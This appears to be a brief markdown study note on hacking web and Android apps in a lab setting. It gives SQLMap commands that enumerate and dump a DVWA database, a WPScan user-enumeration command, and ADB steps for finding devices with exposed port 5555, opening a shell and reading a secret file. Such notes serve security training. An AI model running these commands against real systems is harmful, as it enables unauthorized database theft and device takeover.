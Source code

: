# Hacking Web & Android application

- Command Injection
- SQLi
- XSS

## Tools

- `SQLMap`: For finding SQL Injection Vulnerabilities
- `Wpscan`: Scanning and finding issues in wordpress websites
- `ADB`: For connecting android devices to PC and binay analysis
- `Burpsuite`: For analysing and manipulating the traffic

- First download and install DVWA

### SQLMap

```bash
sqlmap -r <get-request-file> --dbs
sqlmap -r <get-request-file> -D dvwa
sqlmap -r <get-request-file> -D dvwa --tables
sqlmap -r <get-request-file> -D dvwa --tables --colums
sqlmap -r <get-request-file> -D dvwa --dump
```

### WPScan

```bash
wpscan --url http://10.10.208.164/ --enumerate u
```

### ADB

```bash
adb devices
adb connect <IP>:5555
```
- first find out which ip is a android device while enumerating using nmap (can determine OS of each devices)
- or simply bruteforce among which ip is android device
	e.g.,
	- `adb connect 1.1.1.1:5555`
	- `adb connect 1.1.1.2:5555`
	- `adb connect 1.1.1.3:5555` etc.

```bash
adb shell
```
	- ls
	- whoami (shell)
	- cd sdcard/
	- cat secret.txt

---